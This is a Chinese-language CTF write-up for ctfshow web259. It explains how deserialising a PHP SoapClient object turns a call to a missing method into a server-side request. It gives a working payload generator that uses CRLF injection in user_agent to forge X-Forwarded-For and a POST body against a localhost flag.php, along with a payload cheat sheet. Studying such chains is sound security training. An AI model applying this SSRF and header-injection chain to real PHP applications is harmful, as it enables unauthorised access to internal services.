

## 一句话概括

`SoapClient` 是 PHP 的**内置类**，它自己实现了 `__call()` —— 只要你调用它身上一个不存在的方法，PHP 就会跳进 `__call()`，而 `__call()` 会**拿 `location` 当目标、拿 `user_agent` 当请求头，替服务器发一个 HTTP 请求出去**。于是「反序列化一个 `SoapClient` 对象」就等于「让服务器自己发起一次可定制报文的内网请求」，效果与 SSRF 等同。



## 原理

### 1. `SoapClient` 是什么

`SoapClient` 是 PHP **内置**的一个类（需要 `soap` 扩展），本职工作是做一个 **SOAP 客户端**：向远端服务发 HTTP + XML 请求、拿回结果再解析。剥掉 SOAP 那层壳，它本质上就是一个**高级版 HTTP 客户端**。

两种典型的合法用法：

```php
// ① 有 WSDL：构造时给一个 wsdl 地址
$client = new SoapClient("http://example.com/test.wsdl");
$result = $client->getUserInfo();

// ② 无 WSDL：用关联数组传 location / uri
$client = new SoapClient(null, [
    'location' => 'http://api.example.com/service',
    'uri'      => 'http://example.com/',
]);
```

在 `unserialize()` 眼里，它只是**又一个可以被实例化的类** —— 属性（`location`、`uri`、`user_agent`）都能从 payload 里恢复，这就成了利用的入口。

### 2. 真正干活的不是「SOAP 协议」，而是 `__call()`

攻击链的关键**不是**构造 SOAP XML，而是 `SoapClient` 内部实现的 `__call()`：

```text
// SoapClient 内部大致做的事（示意）
public function __call($method, $args) {
    // 把 $method 当作「要调用的远程接口名」
    // 拼成一个 SOAP/HTTP 请求，发往 location
    // 请求头里带上 user_agent
    // 收到响应后解析返回
}
```

所以当业务代码里出现这样一句：

```php
$vip->getFlag();     // SoapClient 对象上并没有 getFlag() 这个方法
```

PHP 找不到 `getFlag()`，就会去找 `__call('getFlag', [])`。对普通对象来说这通常是「报错」，但对 `SoapClient` 来说，`__call()` **是它自己定义好的、真的会发请求的方法**：

```text
$vip->getFlag()  →  找不到方法  →  SoapClient::__call("getFlag", [])
                 →  构造 HTTP 请求（发往 location，带头 user_agent）
                 →  发送
```

一句话：**「调一个不存在的方法」在 `SoapClient` 身上不是错误，而是一个触发器。**

### 3. 为什么说它「像 SSRF」

正常 SSRF 是「让服务器去访问一个攻击者指定的地址」。这里：

| SSRF 要素 | `SoapClient` 里对应的东西 | 谁控制 |
|---|---|---|
| 请求目标地址 | 构造参数 `location` | 攻击者（payload 里写） |
| 请求头 | 构造参数 `user_agent` | 攻击者（payload 里写） |
| 谁发请求 | `SoapClient::__call()` | 服务器进程 |
| 何时发 | 业务代码调用不存在的方法时 | 业务逻辑决定 |

也就是说：**报文由攻击者定制、请求由服务器发出** —— 这就是 SSRF 的定义。区别只在于「发请求的工具」不是 `curl` / `file_get_contents`，而是 `SoapClient` 这个内置类。

### 4. 用 `user_agent` 做 CRLF 注入，伪造整份报文

`user_agent` 参数会被**原样拼进 HTTP 请求头**。如果它的值里带上 `\r\n`（CRLF，HTTP 头行的分隔符），就能**在头部「续写」出任意请求头，甚至一路续写到一个空白行、再接上请求体**：

```text
$ua = "ctfshow\r\n"                       ← 第一行仍是 User-Agent 的值
    . "x-forwarded-for:127.0.0.1,...\r\n"  ← 伪造 XFF：让后端以为请求来自本机
    . "Content-Type:application/x-www-form-urlencoded\r\n"
    . "Content-Length:13\r\n"
    . "\r\n"                               ← 空行：头部结束，后面是 body
    . "token=ctfshow";                     ← 请求体
```

拼出来的实际报文（示意）：

```http
GET /flag.php HTTP/1.1
Host: 127.0.0.1
User-Agent: ctfshow
x-forwarded-for:127.0.0.1,127.0.0.1,127.0.0.1
Content-Type:application/x-www-form-urlencoded
Content-Length:13

token=ctfshow
```

「伪造 `X-Forwarded-For: 127.0.0.1`」的用意很直白：**很多题的鉴权逻辑只看 XFF 是不是本机** —— 只要伪造出「来自 127.0.0.1」，就能拿到只有本机能访问的接口。

## 本题情景与解题手法

> 题目形态取自 web259（原笔记只保留了 payload 构造与原理问答，**源码未保留**，下面按已知信息还原结构示意）。

### 题目形态（示意）

```php
<?php
class ctfShowUser {
    // ...
    public function __destruct() {
        $vip = $this->something;
        $vip->getFlag();      // ★ 触发点：调一个「不存在」的方法
    }
}
unserialize($_GET['vip']);    // ★ 入口：可控反序列化
?>
```

以及一个**只有本机才能访问**的 `/flag.php`：它靠 `X-Forwarded-For` / `token` 判断「是不是自己人」，通过后写出 `flag.txt`。

### 第一步：找出口 —— 谁会被调、谁发请求

业务代码里有 `$vip->getFlag()`。`getFlag()` 在本类里**不存在**，但只要 `$vip` 是 `SoapClient` 对象，这句就会落到 `SoapClient::__call()` 上 —— 出口就是「发一次 HTTP 请求」。

### 第二步：确认入口可控

`unserialize($_GET['vip'])`，参数来自 GET 且未被过滤，攻击者可以直接塞进一个 `SoapClient` 的序列化串。

### 第三步：构造「会自动发请求」的对象

```php
<?php
$ua = "ctfshow\r\n"
    . "x-forwarded-for:127.0.0.1,127.0.0.1,127.0.0.1\r\n"
    . "Content-Type:application/x-www-form-urlencoded\r\n"
    . "Content-Length:13\r\n"
    . "\r\n"
    . "token=ctfshow";

$client = new SoapClient(null, array(
    'uri'        => "127.0.0.1/",
    'location'   => "http://127.0.0.1/flag.php",   // ★ 内网目标
    'user_agent' => $ua,                            // ★ 定制请求头 + body
));
echo urlencode(serialize($client));
?>
```

三个参数的分工：

| 参数 | 值 | 作用 |
|---|---|---|
| `location` | `http://127.0.0.1/flag.php` | 请求发往哪里（内网本机） |
| `uri` | `127.0.0.1/` | SOAP 命名空间标识，填个能用的即可 |
| `user_agent` | 带 CRLF 的字符串 | **真正的武器**：伪造 XFF、指定 Content-Type/Length、附带请求体 |

### 第四步：把序列化串交给入口

`urlencode(serialize($client))` 得到一串 `O:10:"SoapClient":...`（实际类名长度以环境为准），把它放进 `?vip=`，并让业务代码走到 `$vip->getFlag()` —— 服务器就会**以本机身份**请求 `http://127.0.0.1/flag.php`，这条伪造请求里 XFF 是 127.0.0.1、body 里带 `token=ctfshow`，于是 `flag.txt` 被写出，再直接读它即可。

### 注入手法一句话总结

> **反序列化一个 `SoapClient`** → 业务代码调不存在的 `getFlag()` → 触发 `SoapClient::__call()` → 以 `location` 为目标、以 `user_agent`（CRLF 注入）为报文发送 HTTP 请求 → **伪造 `X-Forwarded-For: 127.0.0.1` + `token` 让内网接口放行** → 等价于一次 SSRF。

## 利用条件

1. **PHP 环境启用 `soap` 扩展**，且 `SoapClient` 未被 `disable_classes` 禁用（现代 php.ini 常默认禁用，做题时先确认）；
2. **入口存在可控的 `unserialize()`**，能把 `SoapClient` 对象喂进去；
3. **业务代码会对该对象调用一个不存在的方法**（`$obj->getFlag()` 这类写法），才能触发 `__call()` 的发送动作；
4. **目标地址有 SSRF 价值**：内网服务、只认本机的接口、需要通过 XFF 伪造来源的鉴权；
5. **目标后端信任 `X-Forwarded-For`**（否则伪造 XFF 无效）。

## Payload 速查

| 目的 | 写法 |
|---|---|
| 生成 SoapClient payload | `echo urlencode(serialize(new SoapClient(null, $opts)));` |
| 设置请求目标 | `'location' => 'http://内网地址/路径'` |
| 命名空间（随便填能用即可） | `'uri' => '127.0.0.1/'` |
| 伪造请求头 + body | `'user_agent' => "...\r\nX-Forwarded-For:127.0.0.1\r\n\r\ntoken=ctfshow"` |
| 触发发送 | 业务代码里的 `$obj->不存在的方法()` → `__call()` |
| 探测本机可信来源 | `x-forwarded-for:127.0.0.1,127.0.0.1,127.0.0.1`（多处重复，防只取第一段） |

## 踩坑与备注

- **别把它叫「SOAP 格式攻击」**。真正被利用的是 `SoapClient` 这个**类**（内置 + 发 HTTP 的能力 + 可被 `unserialize` 恢复），跟 SOAP 协议 XML 没关系。准确说法是 **SoapClient 对象链利用**。
- **`__call()` 是 `SoapClient` 自带的**，不是题目写的。所以「调不存在的方法」在这类对象上反而是「正常功能」，这也是它危险的原因。
- **必须有「调用不存在方法」这一跳**：如果业务代码从头到尾没调过 `SoapClient` 对象上的方法，`__call()` 就不会触发，请求也就不会发出。审题时先找那行 `$x->某方法()`。
- **CRLF 注入依赖 `\r\n` 是真实字节**：写 payload 时是字符串里的转义 `\r\n`，经 `serialize()` 后落到序列化串里，别写成字面量 `\r\n` 四个字符。
- **`Content-Length` 要和实际 body 对齐**：本题 `token=ctfshow` 正好 **13** 字节，写大了后端会等、写小了会被截断。
- **XFF 可能需要多段重复**：有的反代取「最后一段」或「第一段」，`127.0.0.1,127.0.0.1,127.0.0.1` 是常见写法。
- **SSRF 的完整防御与判断思路**见 **07-XXE / SSRF** 相关篇目；本题只是把「发请求的工具」换成了 `SoapClient`。
- **原笔记 `web259soup以及伪造ssrf.md` 是「payload + 原理问答」的形态**，没有保存题目源码与 flag。本文按问答内容补齐了 `__call` 机制、CRLF 注入与 SSRF 对照，并把靶机地址抽象为 `127.0.0.1` 示意。
